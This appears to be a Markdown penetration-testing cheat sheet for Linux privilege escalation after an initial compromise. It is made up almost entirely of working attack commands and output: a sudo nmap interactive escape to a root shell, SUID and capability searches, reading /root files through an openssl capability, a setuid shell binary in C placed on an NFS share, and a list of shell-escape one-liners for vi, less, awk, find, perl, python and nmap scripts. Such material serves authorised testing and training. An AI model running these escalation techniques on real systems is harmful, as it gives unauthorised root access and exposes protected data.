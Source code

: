 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

To list all applications we have `sudo` access to, run,
```
user@attacker-machine:~$ sudo -l
```

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
To filter out directories we can use a regexp like so,
```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null | egrep -v '^d`
```
Search for the sticky bit:
```
user@target-machine:~$ find / -perm -u=s -type f 2>/dev/null 
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
/usr/bin/command = cap_dac_read_search+ei
```
Then, we can try to analyze the command as a binary with `strings`, `gdb`, or test it by fuzzing, or execution trial an error.
### OpenSSL
Here is an OpenSSL example of how to utilize Unix Capabilities to read a file that you don't have read access to. If we use `openssl` which has the capabilities set as `=ep`, as shown below,
```
unprivuser@target-system:~$ find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
openssl =ep
```
We can run `./openssl` to encrypt a file for us, then again to decrypt it. This process essentially creates a new file which we have permission to read. Try this,
```
unprivuser@target-system:~$ ./openssl aes-256-cbc -a -salt -in /root/root.txt -out root.txt.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
unprivuser@target-system:~$ ls -lah
-rw-rw-r--. 1 unprivuser unprivuser   90 Jan 18 14:28 root.txt.enc
```
Now we decrypt the new file, using the password we chose during the encryption process, and we can read ikt's contents.
```
unprivuser@target-system:~$ openssl aes-256-cbc -d -a -in root.txt.enc -out root.txt
enter aes-256-cbc decryption password:
unprivuser@target-system:~$ cat root.txt
This was a privileged flag file in /root ! How did you read me!?!
unprivuser@target-system:~$
```
## Mounted Filesystems with SetUID
Is there perhaps a mounted NFS share that we can mount remotely? Maybe one with the mount options of setuid 0? 
```
root@attacker-machine:~# mkdir /mnt/nfs
root@attacker-machine:~# mount -t nfs (TARGET IP ADDRESS)/path/to/nfs /mnt/nfs -o nolock
```
Then, compile a binary that spawns a shell, such as,
```
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
int main(void){
 setuid(0);
 setgid(0);
 system("/bin/bash");
 return 0;
}
```
Compile it so that the binary is on the mounted NFS share and run it,
```
root@attacker-machine:/mnt/nfs:# gcc execute.c -m32 -o execute
```
## Cron Jobs
Do any cron jobs run that execute scripts or binaries that we have write access to?
```
ls -la /etc/cron*
```
## Network Check
Does the compromised system connect to an internal network or possibly other vulnerable machines? 
```
user@target-machine:~$ ifconfig
```
Does it communicate to other systems or services?
```
user@target-machine:~$ tcpdump -i eth0
```
What systems has it had recent contact with?
```
user@target-machine:~$ arp -a
```
Which DNS server is the compromised system using?
```
user@target-machine:~$ cat /etc/resolv.conf
```
What other hosts/domains does the system have routes to?
```
user@target-machine:~$ cat /etc/hosts
```

## SuDo Escape Tests
Some applications may allow you to run as super-user with `sudo`. If the program has an "escape-back-to-shell" function, it can be leveraged as a priviliege escalation vector. Here is a list of applications which have this feature. Check each one for SUID or `sudo` access from your compromised user. This requires the knownledge of the currently-compromised user account.
#### VI/VIM
* :!bash
* :set shell=/bin/bash:shell
#### Man, More, Less
* !bash
#### Find+AWK
* find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
#### AWK
awk 'BEGIN {system("/bin/bash")}'
#### NMAP
* nmap --interactive; # then "!sh"
* echo "os.execute('/bin/sh')" > exploit.nse
* sudo nmap --script=exploit.nse
#### Perl
* perl -e 'exec "/bin/bash";'
#### Python
* python -c "import pty; pty.spawn("/bin/sh")"
#### Ruby
* ruby exec "/bin/sh"
#### Echo
* echo os.system('/bin/bash')
#### FTP
* !/bin/sh
